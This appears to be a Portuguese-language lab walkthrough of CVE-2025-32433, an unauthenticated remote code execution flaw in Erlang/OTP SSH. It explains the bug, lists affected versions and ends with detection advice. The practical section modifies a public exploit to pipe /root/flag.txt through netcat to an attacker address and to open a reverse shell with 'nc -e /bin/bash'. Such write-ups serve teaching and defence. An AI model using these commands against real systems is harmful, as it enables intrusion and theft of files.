



# _**Contextualização**_
**Erlang** e a sua companhia de _framework_, OTP, concretizaram um poderoso ecosistema construindo e distribuindo sistemas de tolerância a falhas.  
**Erlang** é uma linguagem de programação feita para construir sistemas escaláveis de alta avaliabilidade. Ela é utilizada não apenas por empresas, mas também por universidades.  

**OTP (Open Telecom Plataform)** é uma coleção de _middleware, bibliotecas e ferramentas_ escritas em **Erlang**.  

Uma implementação do protocolo **SSH** é a <mark>Erlang/OTP SSH</mark>. Ela permite acesso a partir de _secure shells_ e também a transferência de arquivos entre sistemas baseados em **Erlang**.  

A descoberta de uma vulnerabilidade recente nessa implementação permite RCE sem autenticação.  
Foi descoberta por pesquisadores da universidade Ruhr Bochum e recebeu 10.0 no _score CVSS_.  

## _**Explicando a vulnerabilidade**_
Esta vulnerabilidade existe devido à implementação do protocolo SSH pelo Erlang/OTP, em particular ao tratamento das mensagens do protocolo de conexão durante a fase de pré-authenticação. Números de mensagem SSH iguais ou superiores a 80 são reservados para o período pós-autenticação.  

Consequentemente, se o cliente SSH enviar uma mensagem SSH com esses números antes da conclusão da autenticação, o servidor SSH deveria desconectá-lo. Os servidores vulneráveis não fazem essa validação, o que dá aos atacantes muitas janelas de oportunidade para forjar suas mensagens e, eventualmente, alcançar a execução de código não autorizada.  

Atualmente, existem um **PoC** disponível escrito por [Matthew keeley](https://platformsecurity.com/blog/CVE-2025-32433-poc) e [seu código](https://github.com/platsecurity/CVE-2025-32433) disponível para download.  

<mark>As versões OTP afetadas incluem estas abaixo e qualquer anterior:</mark>  
* OTP-27.3.2
* OTP-26.2.5.10
* OTP-25.3.2.19

## _**Na prática**_
Primeiro, vamos realizar um ```git clone``` do [link fornecido](https://github.com/platsecurity/CVE-2025-32433) do exploit.  
Alteramos para o diretório que contém o código.  
Em seguidda, alteramos no próprio código o endereço IP alvo e a porta alvo.  
Executamos  



Agora, para obtermos a flag _root_, vamos realizar uma alteração  
Na linha 108, alteramos o trecho para o seguinte: ```command='os:cmd("cat /root/flag.txt | nc [ip_address] 4444").'```  
Ligamos nosso ```netcat``` para obtermos a flag  



Agora, para obtermos o _hostname_, vamos alterar o comando dentro de parênteses para: ```nc [ip_address] 4444 -e /bin/bash```  



## _**Mitigações para esta vulnerabilidade**_
O ataque incide sobre a camada de implementação do protocolo SSH, portanto os logs do daemon SSH não forneceriam evidência confiável de exploração. Ainda assim, o ataque pode ser rastreado pela análise do tráfego de rede, onde você veria o pacote "SSH_MSG_CHANNEL_REQUEST" vindo do atacante para o seu servidor.  

Como a vulnerabilidade afeta principalmente dispositivos de rede que normalmente controlam uma rede ou um de seus segmentos, atacantes podem usar os dispositivos explorados como ponto de partida para entrar no seu Active Directory, ambiente de produção ou outro segmento de rede sensível.  

Assim, você pode estruturar suas buscas em torno da detecção de atividades anômalas partindo dos dispositivos de rede para seus servidores ou estações de trabalho.  
Por exemplo:  
* Alterações inesperadas em arquivos ou novos arquivos executáveis criados após a divulgação da CVE
* Persistências específicas do SO, como cronjobs no Linux, criadas após a divulgação da CVE
* Tráfego de rede suspeito originando-se do dispositivo para IPs externos não reconhecidos
